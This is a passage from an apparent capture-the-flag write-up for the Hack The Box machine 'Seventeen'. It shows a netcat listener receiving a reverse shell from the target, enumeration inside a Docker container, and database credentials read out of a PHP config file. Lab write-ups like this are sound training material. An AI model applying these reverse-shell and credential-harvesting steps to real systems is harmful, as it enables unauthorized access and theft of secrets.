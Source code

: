 ```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.165] 55588
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cb377ac091e5:/var/www/html/oldmanagement/files/31234$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cb377ac091e5:/var/www/html/oldmanagement/files/31234$ whoami
whoami
www-data
```



# Shell as `mark`

### Enumeration

Given the hostname, I guessed that the obtained shell is on docker container.

```bash
www-data@cb377ac091e5:/var/www/html/oldmanagement/admin$ hostname
hostname
cb377ac091e5
```


```bash
www-data@cb377ac091e5:/var/www/html/oldmanagement/admin$ cat conn.php
cat conn.php
<?php
        $conn = mysqli_connect("127.0.0.1", "mysqluser", "mysqlpassword", "db_sfms");

        if(!$conn){
                die("Error: Failed to connect to database!");
        }

        $default_query = mysqli_query($conn, "SELECT * FROM `user`") or die(mysqli_error());
        $check_default = mysqli_num_rows($default_query);

        if($check_default === 0){
                $enrypted_password = md5('admin');
                mysqli_query($conn, "INSERT INTO `user` VALUES('', 'Administrator', '', 'admin', '$enrypted_password', 'administrator')") or die(mysqli_error());
                return false;
        }
?>
```

DB credential is found : `mysqluser` : `mysqlpassword`
